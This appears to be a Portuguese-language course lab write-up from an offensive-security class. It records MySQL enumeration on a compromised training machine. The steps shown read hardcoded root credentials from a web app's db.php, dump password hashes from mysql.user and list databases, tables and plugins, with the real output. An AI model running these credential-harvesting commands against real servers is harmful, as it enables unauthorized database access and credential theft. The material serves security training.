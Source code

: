 # 🔍 Exploração do Site — 👨‍🔬 Penetratium ☢️ - 🧬 Team 📡

## 🔗 Materia Segurança Ofensiva 📕

- 👨‍🏫 **Professor:** JPGress
- 🔍 **Tipo:** Exploration mysql

---
# **🗄️ Comandos de Exploração do MySQL**

<img width="266" height="122" alt="image" src="https://github.com/user-attachments/assets/c2b6c4ae-a5a8-4011-a9be-b08bd4624268" />

- 2 pdf ja upado no sistema

## 🔎 Vendo versão : mysql --version

```ruby
mysql  Ver 14.14 Distrib 5.5.50, for debian-linux-gnu (x86_64) using readline 6.3
```

## 🔎 Puxando creds : cat /var/www/html/prog/db.php
```ruby
  <!--?php
  
      $lnk = @mysql_connect("localhost", "root", "dbhacklfi");
      $db = mysql_select_db('deseclfi', $lnk);
  
  ?--> 

```

## 🔎 Buscando Passwd : mysql -u root -pdbhacklfi -e "use mysql; select user, host, password from user;"
```ruby
  user	host	password
  root	localhost	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	rh	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	127.0.0.1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  root	::1	*19CFDF5B8F5E1CA15B1222BA0C4363437F641E11
  debian-sys-maint	localhost	*300DD417C72920F12EBD3A01236771655230AC5A
```

## 🔎 Vendo BD's : mysql -u root -pdbhacklfi -e "show databases;"

```ruby
  Database
  information_schema
  deseclfi
  mysql
  performance_schema
```

## 🔎 Vendo Tabelas : mysql -u root -pdbhacklfi -e "use deseclfi; show tables;"

```ruby
  Tables_in_deseclfi
  submissions
```
## 🔎 comando: mysql -u root -pdbhacklfi -e "use mysql; show tables;"

```ruby
  Tables_in_mysql
  columns_priv
  db
  event
  func
  general_log
  help_category
  help_keyword
  help_relation
  help_topic
  host
  ndb_binlog_index
  plugin
  proc
  procs_priv
  proxies_priv
  servers
  slow_log
  tables_priv
  time_zone
  time_zone_leap_second
  time_zone_name
  time_zone_transition
  time_zone_transition_type
  user

```


## comando : cat /var/www/html/BANCO\ DE\ DADOS/bd.sql
```ruby
  -- MySQL dump 10.13  Distrib 5.1.63, for debian-linux-gnu (i486)
  --
  -- Host: localhost    Database: cfp
  -- ------------------------------------------------------
  -- Server version	5.1.63-0+squeeze1
  
  /*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
  /*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
  /*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
  /*!40101 SET NAMES utf8 */;
  /*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
  /*!40103 SET TIME_ZONE='+00:00' */;
  /*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
  /*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
  /*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
  /*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;
  
  --
  -- Table structure for table `submissions`
  --
  
  DROP TABLE IF EXISTS `submissions`;
  /*!40101 SET @saved_cs_client     = @@character_set_client */;
  /*!40101 SET character_set_client = utf8 */;
  CREATE TABLE `submissions` (
    `id` mediumint(9) NOT NULL AUTO_INCREMENT,
    `email` varchar(150) DEFAULT NULL,
    `password` varchar(50) DEFAULT NULL,
    `title` varchar(150) DEFAULT NULL,
    `description` text,
    `bio` text,
    `filename` varchar(150) DEFAULT NULL,
    PRIMARY KEY (`id`)
  ) ENGINE=MyISAM DEFAULT CHARSET=latin1;
  /*!40101 SET character_set_client = @saved_cs_client */;
  
  --
  -- Dumping data for table `submissions`
  --
  
  LOCK TABLES `submissions` WRITE;
  /*!40000 ALTER TABLE `submissions` DISABLE KEYS */;
  /*!40000 ALTER TABLE `submissions` ENABLE KEYS */;
  UNLOCK TABLES;
  /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
  
  /*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
  /*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
  /*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
  /*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
  /*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
  /*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
  /*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;
  
  -- Dump completed on 2017-01-09 23:37:44
```

## 🔎 **Vendo plugins** : mysql -u root -pdbhacklfi -e "SHOW PLUGINS"

```ruby
Name	Status	Type	Library	License
binlog	ACTIVE	STORAGE ENGINE	NULL	GPL
mysql_native_password	ACTIVE	AUTHENTICATION	NULL	GPL
mysql_old_password	ACTIVE	AUTHENTICATION	NULL	GPL
MEMORY	ACTIVE	STORAGE ENGINE	NULL	GPL
CSV	ACTIVE	STORAGE ENGINE	NULL	GPL
MRG_MYISAM	ACTIVE	STORAGE ENGINE	NULL	GPL
MyISAM	ACTIVE	STORAGE ENGINE	NULL	GPL
FEDERATED	DISABLED	STORAGE ENGINE	NULL	GPL
InnoDB	ACTIVE	STORAGE ENGINE	NULL	GPL
INNODB_TRX	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_LOCKS	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_LOCK_WAITS	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMP	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMP_RESET	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMPMEM	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_CMPMEM_RESET	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_BUFFER_PAGE	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_BUFFER_PAGE_LRU	ACTIVE	INFORMATION SCHEMA	NULL	GPL
INNODB_BUFFER_POOL_STATS	ACTIVE	INFORMATION SCHEMA	NULL	GPL
PERFORMANCE_SCHEMA	ACTIVE	STORAGE ENGINE	NULL	GPL
ARCHIVE	ACTIVE	STORAGE ENGINE	NULL	GPL
BLACKHOLE	ACTIVE	STORAGE ENGINE	NULL	GPL
partition	ACTIVE	STORAGE ENGINE	NULL	GPL
```
